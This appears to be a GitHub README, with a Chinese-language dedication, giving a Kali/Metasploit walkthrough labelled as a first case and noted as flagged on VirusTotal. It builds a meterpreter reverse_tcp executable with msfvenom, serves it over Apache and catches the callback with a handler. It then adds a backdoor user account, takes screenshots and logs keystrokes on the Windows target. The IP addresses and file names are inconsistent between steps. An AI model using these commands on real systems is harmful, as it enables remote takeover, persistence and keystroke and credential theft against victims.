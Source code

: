 #### Jimmy是教我資安的教授，我用他的名字來命名病毒(我真的很感謝他帶我踏入資安)

####[Case 1: (55) Detected on virustotal] only msfvenom
  1_[kali]#> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.86.246 LPORT=8888 -f exe > /var/www/html/jimmy1.exe
  2_[kali]#> service apache2 start
  3_[kali]#> msfconsole
  4_[kali]msf> use exploit/multi/handler
  5_[kali]msf> set payload windows/meterpreter/reverse_tcp
  6_[kali]msf> set lhost 10.0.0.43
  7_[kali]msf> set lport 8888
  8_[kali]msf> run
  9_[windows] http://10.0.0.43/virus1.exe
  10_[windows]execute virus1.exe
  11_[kali]meterpreter > shell  
  12_net user /add jimmy 123456
  13_[kali]meterpreter > screenshot 
  14_[kali]meterpreter > keyscan_start
  15_[kali]meterpreter > keyscan_dump
  16_[kali]meterpreter > keyscan_stop

